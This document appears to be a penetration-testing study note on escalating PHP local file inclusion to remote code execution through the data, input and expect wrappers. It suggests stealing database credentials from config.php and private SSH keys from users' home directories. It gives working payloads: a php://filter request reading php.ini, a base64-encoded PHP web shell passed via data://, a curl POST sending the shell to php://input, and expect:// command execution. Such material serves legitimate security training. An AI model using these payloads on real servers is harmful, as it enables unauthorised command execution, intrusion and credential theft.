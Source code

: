 # PHP Wrappers - RCE
***
#### There are various methods to execute remote commands, depending on the type of technology on the back-end.
#### One of the methods that we can use to achieve RCE is by enumerating user credentials and SSH keys to use them to log in to the server. For instance, we may find the database credentials in a file like `config.php` or by checking the `.ssh` directory in each user's home directory to get their private key (id_rsa) to be able to SSH into the system.

### [Data](https://www.php.net/manual/en/wrappers.data.php)
#### We can include external data by using the `data` wrapper when the `allow_url_include` setting is enabled in the PHP config. By reading the PHP config file through the LFI vulnerability we may be able to check the previous setting.

### Checking PHP Configurations
#### The PHP configuration file can be found at `/etc/php/X.Y/apache2/php.ini` for Apache or `/etc/php/X.Y/fpm/php.ini` for Nginx. The `X.Y` represents the installed PHP version. We may also fuzz the PHP version starting from the earliest one. The `base64` filter should be used as `.ini` files are similar to `.php`and should be encoded to avoid breaking.
#### Example:
```
 http://<IP>:<PORT>/index.php?lang=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

#### Then we would decode the result of the above payload to check if the `allow_url_include` setting is enabled:
```shell
echo 'MTMzNwo=' | base64 -d | grep allow_url_include
```

#### The option mentioned above is not enabled by default, so we need to check that in order to exploit several LFI vulnerabilities, for instance using the `input` wrapper or any RFI vulnerability. However, it is commonly enabled for WordPress plugins and themes.

### Remote Code Execution
#### When the `allow_url_include` option is enabled we may try to use the `data` wrapper to include external data like PHP code. In addition, it is possible to base64 encode our payload with `text/plain;base64` as it has the ability to decode it and execute the PHP script.
#### Steps to execute the attack above:
#### Base64 encode our PHP script:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' | base64
```
#### And then pass it to the data wrapper with `data://text/plain;base64,` and input commands through `&cmd=<COMMAND>`:
```bash
$ curl -s 'http://<SERVER>:<PORT>/index.php?lang=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

### [Input](https://www.php.net/manual/en/wrappers.php.php)
#### Likewise, the `input` wrapper can be used to include external input and execute PHP code ,and it also needs the `allow_url_include` setting to be switched on . This can be achieved by passing our input to the wrapper as a POST request's data. Consequently, we need to be able to send POST requests for this to work.
#### Example:
```bash
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?lang=php://input&cmd=id" | grep uid
```
#### When we are only able to send a POST request we may send our command directly in our PHP code. For instance `<\?php system('whoami')?>`

### [Expect](https://www.php.net/manual/en/wrappers.expect.php)
#### With the `expect` wrapper we can also achieve RCE by directly running commands through URL streams.
#### This wrapper needs to be installed and enabled on the back-end server, and we can check that by using the previous mentioned method.
```bash
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

#### Then if it is enabled we can use it to pass commands and execute them:
```bash
$  curl -s "http://<SERVER>:<PORT>/index.php?lang=expect://whoami"
```